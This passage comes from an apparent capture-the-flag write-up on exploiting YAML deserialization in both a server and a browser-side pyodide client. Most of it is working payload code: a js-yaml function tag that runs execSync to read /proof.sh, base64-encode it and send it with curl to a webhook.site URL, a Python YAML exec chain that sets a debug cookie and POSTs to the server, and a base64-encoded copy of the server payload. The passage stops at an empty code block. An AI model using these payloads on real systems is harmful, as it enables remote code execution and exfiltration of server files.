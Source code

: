 > ```
> 
> Finally run `docker compose up` again.

- Preparing **server-side** YAML deserialization payload

```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('cat /proof.sh | base64 -w0 | curl -d @- https://webhook.site/1ded601d-f3f1-40eb-a99c-ab9746346425').toString())}"
```

In here, we read the contents of `/proof.sh`, base64 encode it, and exfiltrate it by sending a POST request to our webhook site. (The POST request's data is from stdin.)

- Preparing our **client-side** YAML deserialization payload

To do so, the payload should set the cookie `debug` to `on`, and use `fetch` to send a POST request to `/debug`. However, the server-side YAML deserialization payload will cause a syntax error: (Or maybe I have skill issue lol)

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(__import__('pyodide').code.run_js('document.cookie=`debug=on`;const data=new URLSearchParams();data.append(`yaml`, `\"toString\": !<tag:yaml.org,2002:js/function> \"function (){console.log(process.mainModule.require(\'child_process\').execSync(\'cat /proof.sh | base64 -w0 | curl -d @- https://webhook.site/1ded601d-f3f1-40eb-a99c-ab9746346425\').toString())}\"`);fetch(`//localhost:3000/debug`,{method:`POST`,body:data})'))"
```

Since I hate escaping strings, I will base64 encode the server-side YAML deserialization payload. Then, in the client-side YAML deserialization payload, it base64 decodes the payload via `atob`. Also, because `listitems`'s value is just a string, we can just use hex characters.

Base64 encoded server-side YAML deserialization payload:

```
InRvU3RyaW5nIjogITx0YWc6eWFtbC5vcmcsMjAwMjpqcy9mdW5jdGlvbj4gImZ1bmN0aW9uICgpe2NvbnNvbGUubG9nKHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ2NhdCAvcHJvb2Yuc2ggfCBiYXNlNjQgLXcwIHwgY3VybCAtZCBALSBodHRwczovL3dlYmhvb2suc2l0ZS8xZGVkNjAxZC1mM2YxLTQwZWItYTk5Yy1hYjk3NDYzNDY0MjUnKS50b1N0cmluZygpKX0i
```

Before turning `listitems` into hex characters:

```yaml
print(__import__('pyodide').code.run_js('document.cookie="debug=on";const data=new URLSearchParams();data.append("yaml", atob("InRvU3RyaW5nIjogITx0YWc6eWFtbC5vcmcsMjAwMjpqcy9mdW5jdGlvbj4gImZ1bmN0aW9uICgpe2NvbnNvbGUubG9nKHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ2NhdCAvcHJvb2Yuc2ggfCBiYXNlNjQgLXcwIHwgY3VybCAtZCBALSBodHRwczovL3dlYmhvb2suc2l0ZS8xZGVkNjAxZC1mM2YxLTQwZWItYTk5Yy1hYjk3NDYzNDY0MjUnKS50b1N0cmluZygpKX0i"));fetch("//localhost:3000/debug",{method:"POST",body:data})'))
```

After turning `listitems` into hex characters:

```yaml
```